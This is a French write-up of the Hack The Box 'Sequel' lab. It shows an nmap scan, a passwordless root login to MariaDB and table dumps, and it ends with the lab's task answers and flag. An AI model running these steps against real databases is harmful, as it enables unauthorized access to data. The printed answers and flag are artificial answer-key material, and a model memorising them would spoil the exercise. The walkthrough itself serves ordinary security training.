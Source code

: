 
# SEQUEL

![alt text](image.png)

#vulnarabilityassessment #databases #MySQL #SQL #reconnaissance #weakcredentials

## 1. Méthodologie

On commence de nouveau par une énumération de ports avec la commande `nmap -sV -p- IP_cible`:

```
└──╼ [★]$ nmap -sV -p- 10.129.168.25
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 15:06 CST
Nmap scan report for 10.129.168.25
Host is up (0.011s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
```

Le port 3306 est ouvert, c'est une base de données MySQL. Nous allons tenter de nous connecter à cette database avec des credentials par défaut comme `root`. La commande utilisée est `mysql -u user -h IP_cible -P port_number`. L'option `-u` spécifie le nom d'utilisateur avec lequel on se connecte, l'option `-h` spécifie l'hôte à qui on souhaite se connecter et `-P` spécifie le port sur lequel nous tentons la connexion. Nous pouvons spéficier l'option `-p` après le user afin d'entrer notre mot de passe juste après avoir lancé la commande.

```
└──╼ [★]$ mysql -u root -h 10.129.168.25 -P 3306
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 66
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Nous allons maintenant lister les bases de données contenues sur le serveur avec la commande `show databases;` :

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.025 sec)
```

On vient explorer les bases de données en les sélectionnant d'abord avec `use db_name;` :

```
MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Nous allons maintenant regarder le contenu de chacune d'elle (leurs tables) avec la commande `show tables;` : 

```
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.010 sec)
```

Il faut ensuite explorer les tables présentes avec la commande `select * from name_table;`. Cette commande sélectionne tout dans la table en question afin d'afficher l'ensemble du contenu.

```
MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.010 sec)
```

## 2. Questions

### Task 1

During our scan, which port do we find serving MySQL?

```
3306
```

### Task 2

What community-developed MySQL version is the target running?

```
mariadb
```

### Task 3

When using the MySQL command line client, what switch do we need to use in order to specify a login username?

```
-u
```

### Task 4

Which username allows us to log into this MariaDB instance without providing a password?

```
root
```

### Task 5

In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

```
*
```

### Task 6

In SQL, what symbol do we need to end each query with?

```
;
```

### Task 7

There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

```
htb
```

### Flag

```
7b4bec00d1a39e3dd4e021ec3d915da8
```